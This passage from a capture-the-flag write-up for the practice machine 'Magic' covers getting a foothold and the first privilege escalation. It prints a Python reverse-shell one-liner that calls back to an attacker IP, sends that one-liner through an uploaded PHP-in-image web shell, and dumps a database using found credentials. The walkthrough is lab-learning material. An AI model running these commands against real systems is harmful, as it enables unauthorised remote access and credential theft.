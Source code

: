 ### Getting a shell

We try a reverse shell with python but it seems it's not installed so we try it with python3:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And getting the shell was as simple as: 

```
http://magic.htb/images/uploads/test.php.jpg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We listen to the connection with `nc -lnvp 4444`.

So we get `www-data` user.

## Privilege Escalation

### User

We do the TTY procedure and start searching for credentials. As is an intermediate machine it shouldn't be too far.

Searching in the `/var/www` we find a PHP database with the credentials `theseus:iamkingtheseus` for the database `Magic`.

We try to dump the database with `mysqldump Magic -u theseus -piamkingtheseus` and it dumps:

```
www-data@ubuntu:/var/www/html$ mysqldump Magic -u theseus -piamkingtheseus
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version	5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
```